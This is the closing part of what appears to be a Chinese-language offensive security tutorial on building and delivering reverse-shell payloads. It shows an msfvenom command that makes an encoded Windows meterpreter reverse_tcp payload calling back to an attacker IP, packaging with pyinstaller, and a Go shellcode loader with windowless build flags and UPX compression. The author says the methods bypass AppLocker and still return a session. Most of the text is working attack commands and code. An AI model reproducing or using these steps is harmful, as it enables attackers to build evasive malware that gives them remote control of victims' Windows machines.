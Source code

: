 ```bash
msfvenom -p windows/meterpreter/reverse_tcp LPORT=4444 LHOST=172.16.1.130 -e x86/shikata_ga_nai -i 5 -f py -o  1.py
```

使用pyinstaller打包

```bash
pyinstaller.py -F --console 1.py
```

和pyinstaller类似的还有py2exe，不再赘述。

## go+upx

```go
package main

import "C"
import "unsafe"

func main() {
    buf := ""
    buf += "\xdd\xc6\xd9\x74\x24\xf4\x5f\x33\xc9\xb8\xb3\x5e\x2c"
    ...省略...
    buf += "\xc9\xb1\x97\x31\x47\x1a\x03\x47\x1a\x83\xc7\x04\xe2"
    // at your call site, you can send the shellcode directly to the C
    // function by converting it to a pointer of the correct type.
    shellcode := []byte(buf)
    C.call((*C.char)(unsafe.Pointer(&shellcode[0])))
}
```

如果正常编译体积会很大，建议使用`go build -ldflags="-s -w"`参数来编译生成exe，你也可以`go build -ldflags="-H windowsgui -s -w"`去掉命令窗口

编译出来900多kb，在使用upx压缩一下会降低到200kb左右，也能正常上线。

# 写在文后

本文所讲到的很多姿势实际上是用来bypass applocker，不过也能弹回来会话。

实战环境复杂，更多情况下请自行判断该使用什么姿势，实际上有时候你折腾半天不上线还不如直接一个bash反弹回来方便。

**文笔垃圾，措辞轻浮，内容浅显，操作生疏。不足之处欢迎大师傅们指点和纠正，感激不尽。**

